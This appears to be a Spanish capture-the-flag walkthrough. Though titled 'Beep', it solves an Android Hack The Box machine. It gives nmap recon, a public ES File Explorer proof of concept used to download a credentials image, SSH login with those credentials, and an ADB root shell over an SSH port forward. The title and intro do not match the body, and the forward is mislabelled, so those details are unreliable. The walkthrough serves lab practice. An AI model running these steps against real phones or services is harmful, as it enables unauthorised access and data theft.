 ```yaml
---
title: Beep - Hack The Box
published: true
---
```


El día de hoy vamos a resolver la máquina _Beep_ de _Hack The Box_. Es una máquina _Linux_ de nivel de dificultad media en la intrusión, y media en la escalada de privilegios según figura en la plataforma. 

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-12-06-Beep-Hack-The-Box/1.png)

Esta máquina nos permite realizar, tanto la intrusión, como la escalada de privilegios, de distintas maneras, por lo que es genial para aprender algunas técnicas de explotación, las cuales vamos a cubrir.

### [](#header-3)Fase De Reconocimiento

Primeramente vamos a lanzar una _traza ICMP_ para saber si la máquina está activa.

```
ping -c 1 10.10.10.247
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/2.png)

Una vez comprobamos que la máquina está activa (pues nos devuelve una respuesta), podemos también determinar a que tipo de máquina nos estamos enfrentando en base al valor del _TTL_; en este caso el valor del _TTL_ de la máquina es `63`, por lo que podemos intuir que estamos ante una máquina _Linux_. Recordemos que algunos de los valores referenciales son los siguientes:

| Sistema Operativo (OS) | TTL |
|:-----------------------|:----|
| Linux                  | 64  |
| Windows                | 128 |
| Solaris                | 254 | 

Si nos damos cuenta, en esta ocasión, el valor del _TTL_ es `63` y no `64` como indica la tabla anterior, esto se debe a que en el entorno de máquinas de _Hack The Box_, no nos comunicamos directamente con la máquina a vulnerar, sino que existe un intermediario, por lo que el _TTL_ disminuye en una unidad.

```
ping -c 1 10.10.10.247 -R                               
``` 

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/3.png)

Posteriormente, vamos a utilizar la herramienta _Nmap_ para determinar que puertos están abiertos así como identificar la versión y servicios que corren en el activo. Para determinar que puertos están abiertos podemos realizar lo siguiente:

```
nmap -p- --open -T5 -v -n 10.10.10.247
```

Y en caso de que el escaneo tarde demasiado en completar, tenemos esta otra alternativa:

``` 
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.247
```

A continuación se explican los parámetros utilizados en el escaneo de puertos con _Nmap_:

* p - Escanea todo el rango de puertos (65535 en total)
* open - Nos indica todos aquellos puertos que están abiertos (o posiblemente abiertos)
* T5 - La plantilla de temporizado nos permite agilizar nuestro escaneo, este valor puede ir desde 0 hasta 5, cabe aclarar que a mayor sea el valor de la plantilla, "generaremos más ruido", pero no pasa nada ¿no? Al fin y al cabo estamos practicando en un entorno controlado y aquí somos todos `White Hat`
* v - _Verbose_, reporta lo encontrado por consola
* n - No aplicar _resolución DNS_
* sS - Escaneo _TCP SYN_
* min-rate - Emitir paquetes no más lentos que <<valor>> por segundo
* vvv - Triple _verbose_, para obtener mayor información por consola
* Pn - No aplicar _host discovery_

Una vez hemos detectado los puertos que se encuentran abiertos en el activo, podemos pasar a determinar la versión y servicios que corren bajo estos puertos.

```  
nmap -sC -sV -p 2222,42135,42607,59777 10.10.10.247
```

A continuación se explican los parámetros utilizados en el escaneo de versiones y servicios con _Nmap_:

* sC - Scripts básicos de enumeración
* sV - Versión y servicios que corren bajo los puertos encontrados
* p - Especificamos que puertos queremos analizar (los que encontramos abiertos en el paso anterior)

Basándonos en la información que nos reporta _Nmap_, podemos darnos cuenta que nos encontramos frente a un teléfono móvil, y nuestra primera gran pista para la siguiente fase es el puerto `42135`.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/4.png)

### [](#header-3)Fase De Explotación

Para explotar el servicio `ES File Explorer`, empezaremos buscando algun exploit que se encuentre en _Exploit Database_, para ello utilizaremos _SearchSploit_ para poder seguir trabajando desde nuestra terminal.

```
searchsploit ES File Explorer                               
``` 

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/5.png)

En este caso _SearchSploit_ no mostró nada interesante, sin embargo, si revisamos manualmente en la página de _Exploit Database_, podemos encontrar un script que nos permite leer archivos alojados en el servicio de `ES File Explorer` de versión `4.1.9.7.4`, por esta razón es importante no quedarnos conformes únicamente con el primer resultado que encontremos.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/6.png)

Sin embargo, tampoco será este el script con el que trabajaremos; en esta ocasión estaremos utilizando un proyecto de _GitHub_ del usuario _fs0c131y_, este se llama [ESFileExplorerOpenPortVuln](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln).

Para empezar a trabajar con este repositorio bastará con clonarlo en nuestra máquina.

``` 
git clone https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
```

Una vez lo tengamos descargado, podemos empezar a revisar que información se alojaba en el servicio `ES File Explorer`.

Después de estar listando el contenido almacenado en el teléfono móvil, encontramos entre las fotografías, una llamada `creds`, lo cual nos hace pensar a que se refiere a credenciales con las que posteriormente autenticarnos.

```
python3 poc.py --cmd listPics --ip 10.10.10.247                               
``` 

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/7.png)

Por lo que procedemos a descargar esta imagen.

```  
python3 poc.py --get-file /storage/emulated/0/DCIM/creds.jpg --ip 10.10.10.247 
``` 

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/8.png)

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/9.png)

Si recordamos, otro servicio que detectamos con _Nmap_, fue el servicio _SSH_ en el puerto `2222`.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/10.png)

Por lo que procederemos a autenticarnos con las credenciales encontradas:

```  
ssh kristi@10.10.10.247 -p 2222
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/11.png)

Una vez dentro de la máquina, procederemos a buscar la primera flag. Por lo que buscaremos el archivo `user.txt` dentro de todo el sistema.

```
echo **/*user.txt*
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/12.png)

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/13.png)

Podemos ver que en efecto esta es la flag del usuario con bajos privilegios.

Lo más común sería utilizar `find . -name user.txt` (y en este caso, redirigir todo el _stderr_ o _Standard Error_ hacia el `/dev/null`), sin embargo no conseguimos ningún resultado en esta máquina, por lo que resulta conveniente conocer otros métodos para realizar el mismo proceso.

### [](#header-3)Escalada De Privilegios

Para poder conseguir la siguiente flag (la del usuario con máximos privilegios), tenemos que percatarnos que la máquina tiene más puertos abiertos que los registrados con _Nmap_, a estos se los conoce como _puertos internos_.

```  
netstat -nlpt
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/14.png)

Si nos percatamos, la máquina utiliza el puerto `5555` para realizar varios procesos relacionados con _Android_; esto tiene sentido ya que algunos dispositivos _Android_ tienen este puerto abierto para realizar procesos relacionados con el `Android Debug Bridge` o `ADB` por sus siglas en inglés. 

Por lo que, lo que vamos a realizar es un `remote port forwarding`, para posteriormente, con el servicio `ADB` conseguir una shell de máximos privilegios con la que poder migrar al usario root y conseguir la última flag. 

En caso de no contar con el servicio `ADB` instalado, bastará con realizar lo siguiente:

```
sudo apt install adb
```

Una vez instalado el servicio `ADB`, podemos pasar a conseguir una shell con máximos privilegios dentro del dispositivo.

```
ssh -L 5555:localhost:5555 kristi@10.10.10.247 -p 2222
``` 

```
adb start-server
adb connect localhost:5555
adb devices
adb -s localhost:5555 shell
su root
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/15.png)

Una vez hemos migrado al usuario _root_, simplemente tendremos que buscar la respectiva flag.

```
echo **/*root.txt*
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-20-Explore-Hack-The-Box/16.png)
